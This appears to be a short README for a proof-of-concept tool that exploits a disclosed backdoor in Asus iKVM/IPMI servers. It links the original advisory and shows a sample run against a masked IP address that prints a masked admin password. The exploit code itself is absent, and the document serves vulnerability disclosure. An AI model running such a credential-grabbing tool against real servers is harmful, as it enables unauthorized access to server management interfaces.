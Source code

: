 Proof-of-concept of:

http://pedromadias.wordpress.com/2012/06/25/all-your-asus-servers-ikvmipmi-may-belong-to-other/

http://packetstormsecurity.org/files/114171/Asus-iKVM-IPMI-Backdoor-Cleartext-Passwords.html


bookie:dist pedrodias$ java -jar ASUSIPMIploiter.jar XXX.XXX.XXX.XXX

ASUSIPMIploiter v0.1

Pedro Dias - petermdias@gmail.com

Passwords:

----

admin:XXXXXXX

----

Passwords grabbed.


